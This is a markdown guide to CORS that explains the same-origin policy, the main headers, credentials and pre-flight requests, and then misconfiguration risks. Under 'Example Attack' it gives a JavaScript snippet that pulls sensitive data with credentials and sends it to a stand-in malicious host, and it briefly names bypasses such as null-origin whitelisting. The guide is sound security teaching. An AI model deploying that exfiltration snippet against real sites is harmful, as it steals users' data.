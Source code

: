 # Cross-Origin Resource Sharing (CORS) Guide

Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources located outside of a given domain. It extends the same-origin policy (SOP), adding flexibility but also potential vulnerabilities if not configured correctly.

## Understanding CORS

CORS modifies the SOP by enabling web pages to request resources from different domains using a set of HTTP headers that define trusted origins and permissions.

### Same-Origin Policy (SOP)

The SOP is a security measure that restricts web pages from interacting with resources from a different origin. An origin is defined by the scheme, domain, and port. Here’s how SOP works with different URLs:

- **Example URL**: `http://normal-website.com/example/example.html`
  - **Access within the same domain**:
    - `http://normal-website.com/example/`: Yes
    - `http://normal-website.com/example2/`: Yes
  - **Access across different schemes or ports**:
    - `https://normal-website.com/example/`: No

### CORS Headers and Requests

- **Access-Control-Allow-Origin (ACAO)**: This header in the response specifies which domains are allowed to access the resource.
  - **Example**:
    - Request from `https://normal-website.com` to `https://robust-website.com/data` might receive:
      ```
      Access-Control-Allow-Origin: https://normal-website.com
      ```

### CORS with Credentials

- Servers can allow requests with credentials (like cookies) by setting `Access-Control-Allow-Credentials: true`.
- **Example**:
  - A request with credentials from `https://normal-website.com` receives:
    ```
    Access-Control-Allow-Credentials: true
    ```

### Handling Wildcards

- The ACAO header can specify `*` to allow all domains, which is considered insecure when combined with credentials.

### Pre-flight Requests

- For complex requests (using methods like PUT or DELETE, or custom headers), the browser sends a pre-flight request using the OPTIONS method to ensure safety before sending the actual request.

### Vulnerabilities from Poor CORS Configurations

- Misconfigured CORS can allow unauthorized access, especially when ACAO reflects a wide range of origins or uses unsafe wildcards.
- **Example Attack**:
  - Using JavaScript to exploit a CORS misconfiguration to extract sensitive data:
    ```javascript
    var req = new XMLHttpRequest();
    req.onload = function() { location='//malicious-website.com/log?key='+this.responseText; };
    req.open('get', 'https://vulnerable-website.com/sensitive-data', true);
    req.withCredentials = true;
    req.send();
    ```

### Special Cases and Bypasses

- **Null Origin Handling**: Some servers whitelist `null` which can be exploited in various scenarios.
- **Domain Matching Issues**: Inadequate validation might allow attackers to register similar-looking domains to bypass restrictions.

## CORS and XSS Vulnerabilities

Correct CORS configuration does not guard against XSS, where a trusted but vulnerable site can be exploited to steal data via CORS.

## Example Scenarios

- **Breaking TLS through CORS**: Allowing CORS requests to a domain over HTTP can lead to man-in-the-middle attacks.
  - Attack involves redirecting to an HTTP page which then makes a CORS request to the secure site, tricking it into revealing sensitive information.

## Conclusion

CORS is a powerful mechanism for modern web applications, but requires careful configuration to avoid introducing web security risks. Understanding both the capabilities and vulnerabilities of CORS is crucial for secure application development.
